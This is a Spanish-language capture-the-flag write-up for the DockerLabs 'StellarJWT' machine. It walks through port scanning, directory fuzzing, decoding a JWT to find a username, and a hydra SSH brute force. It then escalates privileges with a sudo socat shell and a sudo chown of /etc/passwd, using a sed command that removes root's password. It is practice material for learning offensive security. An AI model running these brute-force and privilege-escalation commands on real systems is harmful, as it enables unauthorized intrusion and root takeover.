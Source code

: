 # 📘 Informe Técnico - Máquina: *StellarJWT*

* **Nivel:** Fácil
* **Propósito:** Aprender a identificar y explotar una vulnerabilidad en una aplicación web con autenticación basada en JWT.
* **Objetivo:** Obtener acceso root a la máquina a través de técnicas de enumeración, fuerza bruta y escalada de privilegios.

---

![Logo](Imagenes/Logo.png)

## 🛠️ Despliegue de la Máquina

Primero, descargamos el archivo `.zip` desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip stallarjwt.zip
```

Para desplegar la máquina usamos el siguiente comando:

```bash
sudo bash auto_deploy.sh stellarjwt.tar
```
![Ping a la máquina](Imagenes/Capturas.png)

Verificamos que la máquina esté activa con un `ping`:

```bash
ping -c1 172.17.0.2
```

![Nmap Puertos](Imagenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Escaneo de puertos con `nmap` para descubrir servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
![Nmap detallado](Imagenes/Capturas_2.png)

Resultado:

* Puerto 22 → SSH
* Puerto 80 → HTTP (servidor web activo)

Usamos mi script personalizado `extractPorts` para filtrar los puertos importantes y luego hacemos un escaneo más detallado de versiones:

```bash
nmap -sCV -p22,80 172.17.0.2
```

---

## 🌐 Enumeración Web

Visitamos la página web principal pero no encontramos información útil. Por ello, iniciamos una búsqueda de directorios ocultos (fuzzing) usando `gobuster`:

![Gobuster resultados](Imagenes/Capturas_4.png)

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Resultados encontrados:

* `/index.html` → Página principal
* `/universe/` → Imagen

---

## 🖼️ Análisis de Archivos

Accedemos al directorio `/universe/` y encontramos una imagen:

```bash
wget http://172.17.0.2/universe/universe.jpg
```

Analizamos su metadata con `exiftool`:

```bash
exiftool universe.jpg
```

No encontramos nada relevante.

![Exiftool](Imagenes/Capturas_6.png)

---

## 🔑 Detección de JWT

Al revisar el código fuente de la web, notamos una cadena que parece un token JWT. Al investigar el nombre de la máquina (*stellarjwt*), confirmamos que está relacionada con tokens JWT.

![Código fuente](Imagenes/Capturas_7.png)

Usamos el sitio [jwt.io](https://jwt.io/) para decodificar el token y obtenemos el nombre de usuario:

```
Usuario: neptuno
```

![JWT Decode](Imagenes/Capturas_8.png)

---

## 🧠 Ingeniería Social y Fuerza Bruta SSH

La página web pregunta:
**"¿Qué astrónomo alemán descubrió Neptuno?"**
Respuesta: **Johann Gottfried Galle**

Creamos una lista de contraseñas basada en este nombre:

```bash
nano contraseña.txt
```

Verificamos que el archivo no tenga espacios indeseados:

```bash
cat -A contraseña.txt
```

Realizamos fuerza bruta con `hydra`:

```bash
hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t 20
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```

![Hydra resultado](Imagenes/Capturas_10.png)

---

## 📥 Acceso Inicial (SSH)

Ingresamos al sistema con:

```bash
ssh neptuno@172.17.0.2
```

Revisamos los archivos del sistema y encontramos un archivo `.txt` con una contraseña:

```bash
ls -la
cat nasa.txt
```

Contraseña encontrada: **Eisenhower**

Nos conectamos como el usuario `nasa`:

```bash
su nasa
```

Verificamos privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(elite) NOPASSWD: /usr/bin/socat
```

---

## 🚀 Escalada de Privilegios a usuario *elite*

La línea anterior indica que el usuario `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

**`socat` permite crear una shell interactiva si se ejecuta correctamente.**

Ejecutamos:

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

Ahora somos el usuario `elite`.

Verificamos nuevamente permisos sudo:

```bash
sudo -l
```

Salida:

```text
(root) NOPASSWD: /usr/bin/chown
```

---

## 👑 Escalada de Privilegios a *root*

El usuario `elite` puede ejecutar `chown` como root. Esto nos permite cambiar el propietario de archivos críticos del sistema como `/etc/passwd`, que contiene la información de usuarios y contraseñas.

### ⚠️ Riesgo

Modificar `/etc/passwd` incorrectamente puede dejar el sistema inoperativo. Lo hacemos cuidadosamente:

1. Cambiar permisos para que `elite` pueda modificar `/etc/passwd`:

```bash
sudo chown elite:elite /etc/
sudo chown elite:elite /etc/passwd
```

2. Editamos la línea de root para quitarle la contraseña:

```bash
echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd
```

3. Nos convertimos en root:

```bash
su
```

Ahora somos root.

![Escalada final](Imagenes/Capturas_15.png)
![Root acceso](Imagenes/Capturas_16.png)

---

## ✅ Conclusión

* Logramos acceso inicial explotando JWT y usando ingeniería social.
* Accedimos vía SSH con `hydra` y credenciales deducidas.
* Escalamos privilegios a través de `socat` y luego abusamos de `chown` para modificar `/etc/passwd`.
* Acceso *root* obtenido con éxito.
